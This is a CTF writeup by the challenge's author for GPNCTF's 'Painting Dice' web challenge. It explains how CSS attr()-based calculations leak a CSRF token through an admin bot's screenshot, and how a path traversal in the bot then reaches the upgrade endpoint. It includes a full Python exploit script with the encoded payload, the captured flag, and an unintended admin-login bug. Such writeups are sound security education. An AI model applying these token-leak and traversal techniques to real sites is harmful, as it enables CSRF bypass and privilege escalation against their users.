

+++ 
draft = false
date = 2025-06-22T00:00:00+02:00
title = "Writeup Painting Dice"
description = "A writeup for the Painting Dice challenge of the GPNCTF23"
slug = "writeup-painting-dice-098527d17a3c"
authors = ["sn00py1310"]
tags = ["ctf", "writeup", "gpnctf"]
categories = []
series = []
+++


Notes: This is a writeup from the author of the challenge. The handout is [painting-dice.tar.gz](./painting-dice.tar.gz).
## Short challenge description
User can update a profile with HTML and CSS. Javascript execution is not possible because of a Strong CSP. User can requests a review from the admin bot, which then sends them a screenshot from their profile. To get the flag the user needs to be upgraded.

## Challenge description

The challenge is a website a where user can create there own profile with user customized HTML and CSS. The HTML is secured with DOMPurify and the CSS is filtered for `</` patterns. Also the CSS is filtered for word `content`. 
This means we can't have any javascript execution. If there would have been any bypass, the Content-Security-Policy (CSP) is very strict to the hash of the js files.
```js
sessionRouter.get("/api/profile/:profileId/edit", onlySelf, requireCSRF, noAdmin, async (req, res) => {
    let { style, html } = req.query;
    let customCSS = style ? String(style) : "";
    let customHTML = html ? String(html) : "";

    if (customCSS.match(/content/i)) customCSS = ""; // I don't like css ::before and ::after content
    if (customCSS.match(/<\s*\//i)) customCSS = ""; // Don't close the style tag

    customHTML = DOMPurify.sanitize(customHTML, {FORBID_TAGS: ['style']});
    if (customHTML.length > 2000 || customCSS.length > 2000) return res.render('error', {errorMsg: "Your html or style is to long."});


    await db.updateProfile(req.session.profileId, customCSS, customHTML);
    res.redirect(`/profile/${req.session.profileId}`);
});
```
```
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; script-src 'sha256-WSeViGumYYt+5BT8dVGNsb44Rno6/MnCJrINKv2xOWc=';

```

To get the flag, we need to upgrade the user to a premium user.
```js
sessionRouter.get('/flag', noAdmin, async (req, res, next) => {
    let profileId = parseInt(req.session.profileId);
    if(!(await db.hasFlag(profileId))) return res.render('error', {errorMsg: "Sorry you don't have access to the flag."});

    res.send(flag);
});
```

But this is only possible with the admin bot. This But the upgrade endpoint is protected by a Cross-Site-Request-Forgery (CSRF) token. So it isn't possible to simply send the bot to this endpoint.
```js
sessionRouter.get('/api/upgrade/:profileId', requireCSRF, async (req, res, next) => {
    if (req.session.profileId !== 0) return res.render('error', { errorMsg: "You aren't a admin"});
    let profileIdParam = parseInt(req.params.profileId);
    if (profileIdParam === 0) return res.render('error', { errorMsg: "Can't upgrade the admin."});

    await db.upgradeProfile(profileIdParam);
    console.log("Profile upgraded")
    res.send("Profile upgraded.");
});
```

Where is the CSRF token?
The CSRF token is place in the attributes of the script tag.
```html
<script data-csrf="{{ getCSRFToken }}" src="/forms.js" integrity="{{ cspHash 'forms.js' }}" defer></script>
```
So we need to leak the CSRF token and after that send the bot to our profile.


## Exploiting
### The intended solution
The intended exploit requires the newly added CSSAdvancedAttrFunction feature in Chrome 133. The idea was to leak the CSRF token with some clever CSS.

```css
script{
    --rawToken: attr(data-csrf type(<integer>));

    --background-blue: mod(var(--rawToken), 256);

    --temp1: calc((var(--rawToken) - var(--background-blue)) / 256);
    --background-green: mod(var(--temp1), 256);

    --temp2: calc((var(--temp1) - var(--background-green)) / 256);
    --background-red: mod(var(--temp2), 256);

    --temp3: calc((var(--temp2) - var(--background-red)) / 256);
    --font-blue: mod(var(--temp3), 256);

    --temp4: calc((var(--temp3) - var(--font-blue)) / 256);
    --font-green: mod(var(--temp4), 256);

    --temp5: calc((var(--temp4) - var(--font-green)) / 256);
    --font-red: mod(var(--temp5), 256);
    
    /* Browser only support 32 Bit Integer use only 31 Bit  because first bit is for sign */
    --font-green: 0;
    --font-red: 0;

    --background-color: color(srgb calc(var(--background-red) / 255) calc(var(--background-green) / 255) calc(var(--background-blue) / 255));
    --font-color: color(srgb calc(var(--font-red) / 255) calc(var(--font-green) / 255) calc(var(--font-blue) / 255));
    
    
    background-color: var(--background-color);
    border: 20px solid var(--font-color);

    display: block;
    width: 500px;
    height: 500px;
}
```
The calculation `calc((var(--temp1) - var(--background-green)) / 256);` is simple a integer division without remainder. Because CSS does not have a function for that.

With this and a review from the admin bot, we can extract the CSRF token from the RGB values of the image.

```
The color of the pixel at (10, 10) is (0, 0, 79)
The color of the pixel at (30, 30) is (27, 220, 79)
leaked_csrf_hex='4f1bdc4f' - leaked_csrf='1327225935'
```


The admin bot is vulnerable to a path traversal on the profileId, so we can send it to any page on the same domain.
```js
noSessionRouter.get('/admin/:profileId', async (req, res) => {
    try {
        let profileId = parseInt(req.params.profileId);

        profileId = req.params.profileId;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: process.env.BROWSER_ARGS.split(',') });
        const page = await browser.newPage();
        await page.goto(`http://localhost:1337/admin/login?adminToken=${ADMIN_TOKEN}`);
        await new Promise(resolve => setTimeout(resolve, 1000));
        // make sure JS execution isn't blocked
        await page.waitForFunction('true');
        
        
        await page.goto('http://localhost:1337/profile/' + profileId);
        await new Promise(resolve => setTimeout(resolve, 1000));
        // make sure JS execution isn't blocked
        await page.waitForFunction('true');
        // take a screenshot
        const screenshot = await page.screenshot();
        await browser.close();
        res.setHeader("Content-Type", "image/png");
        res.send(screenshot);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});
```

With this link it is possible to request to admin to visit the upgrade path with a valid csrf token.
```
{URL_PREFIX}/admin/{profile_id}%2F..%2F..%2F..%2F..%2F..%2Fapi%2Fupgrade%2F{profile_id}%3FcsrfToken%3D{leaked_csrf}
```


After that we just visit the /flag endpoint and get `GPNCTF{f4v0rIte_ColoR_0X000000_Lik3_The_Nigh7_sKy}`

Here is the full exploit script:
```python
import re
from io import BytesIO

# Needs to be installed
import requests         # pip install requests
from PIL import Image   # pip install pillow

import sys

if len(sys.argv) > 1:
    URL_PREFIX = sys.argv[1]
else:
    URL_PREFIX = "http://localhost:1337"

def intToHex(a: int) -> str:
    b = hex(a)[2:]
    return b.rjust(2, "0")

def exploit() -> bool:

    s = requests.Session()


    r = s.get(f"{URL_PREFIX}/profile/me")
    profile_id = re.search(r"\d*$", r.url).group(0)

    cookie = s.cookies.get("connect.sid")
    csrfToken = re.search(r"data-csrf=\"(\d*)\"",r.text).group(1)
    print(f"{profile_id=} {csrfToken=} {cookie=}")


    exploit_css_query = f"html=%3Ch2%3ELook+at+my+awesome+profile%3C%2Fh2%3E&style=script%7B%0A++++--rawToken%3A+attr%28data-csrf+type%28%3Cinteger%3E%29%29%3B%0A%0A++++--background-blue%3A+mod%28var%28--rawToken%29%2C+256%29%3B%0A%0A++++--temp1%3A+calc%28%28var%28--rawToken%29+-+var%28--background-blue%29%29+%2F+256%29%3B%0A++++--background-green%3A+mod%28var%28--temp1%29%2C+256%29%3B%0A%0A++++--temp2%3A+calc%28%28var%28--temp1%29+-+var%28--background-green%29%29+%2F+256%29%3B%0A++++--background-red%3A+mod%28var%28--temp2%29%2C+256%29%3B%0A%0A++++--temp3%3A+calc%28%28var%28--temp2%29+-+var%28--background-red%29%29+%2F+256%29%3B%0A++++--font-blue%3A+mod%28var%28--temp3%29%2C+256%29%3B%0A%0A++++--temp4%3A+calc%28%28var%28--temp3%29+-+var%28--font-blue%29%29+%2F+256%29%3B%0A++++--font-green%3A+mod%28var%28--temp4%29%2C+256%29%3B%0A%0A++++--temp5%3A+calc%28%28var%28--temp4%29+-+var%28--font-green%29%29+%2F+256%29%3B%0A++++--font-red%3A+mod%28var%28--temp5%29%2C+256%29%3B%0A++++%0A++++%2F*+Browser+only+support+32+Bit+Integer+use+only+31+Bit++because+first+bit+is+for+sign+*%2F%0A++++--font-green%3A+0%3B%0A++++--font-red%3A+0%3B%0A%0A++++--background-color%3A+color%28srgb+calc%28var%28--background-red%29+%2F+255%29+calc%28var%28--background-green%29+%2F+255%29+calc%28var%28--background-blue%29+%2F+255%29%29%3B%0A++++--font-color%3A+color%28srgb+calc%28var%28--font-red%29+%2F+255%29+calc%28var%28--font-green%29+%2F+255%29+calc%28var%28--font-blue%29+%2F+255%29%29%3B%0A++++%0A++++%0A++++background-color%3A+var%28--background-color%29%3B%0A++++border%3A+20px+solid+var%28--font-color%29%3B%0A%0A++++display%3A+block%3B%0A++++width%3A+500px%3B%0A++++height%3A+500px%3B%0A%7D%0A"
    r = s.get(f"{URL_PREFIX}/api/profile/{profile_id}/edit?{exploit_css_query}&csrfToken={csrfToken}")

    r = s.get(f"{URL_PREFIX}/admin/{profile_id}")
    image = Image.open(BytesIO(r.content))
    # image.show()

    x, y = 10, 10
    pixel_color = image.getpixel((x, y))
    print(f"The color of the pixel at ({x}, {y}) is {pixel_color}")
    b_2 = pixel_color[2]

    x, y = 30, 30
    pixel_color = image.getpixel((x, y))
    print(f"The color of the pixel at ({x}, {y}) is {pixel_color}")


    r_1 = pixel_color[0]
    g_1 = pixel_color[1]
    b_1 = pixel_color[2]


    leaked_csrf_hex = f"{intToHex(b_2)}{intToHex(r_1)}{intToHex(g_1)}{intToHex(b_1)}"

    leaked_csrf = int(leaked_csrf_hex, 16)
    print(f"{leaked_csrf_hex=} - {leaked_csrf=}")


    r = s.get(f"{URL_PREFIX}/admin/{profile_id}%2F..%2F..%2F..%2F..%2F..%2Fapi%2Fupgrade%2F{profile_id}%3FcsrfToken%3D{leaked_csrf}")
    # image = Image.open(BytesIO(r.content))
    # image.show()

    r = s.get(f"{URL_PREFIX}/flag")

    print(r.text)
    return not r.text.startswith("<!DOCTYPE html>")


def run_mutiple():
    success = 0
    runs = 10
    for i in range(runs):
        if exploit():
            success += 1

    print(f"{success} of {runs} worked")

if __name__ == "__main__":
    exploit()
```

### The unintended solution
There has been a bug in the login system of the bot.
```js {hl_lines=[2,4]}
noSessionRouter.get('/admin/login', async (req, res, next) => {
    let adminToken = req.query.adminToken;

    if (req.query.adminToken !== adminToken) {
        res.send("Token is wrong");
        return;
    }

    req.session.returning = true;
    req.session.userId = 0;
    res.sendStatus(200);
});
```
I don't know of a way that the expression `req.query.adminToken !== adminToken` could evaluate to false. So everyone could login as admin.

---
This bug was some copy and past error. Some people noticed that the same bug has been in `Free Parking Network`. Because of this I patched it in `PAINting Dice`. Then why did you got the broken version? We simply forgot to rebuild the containers. We noticed it 8 hours before the CTF ended, so we decided to keep it as is. Everything else would be unfair to other participants around the world in different time zones.
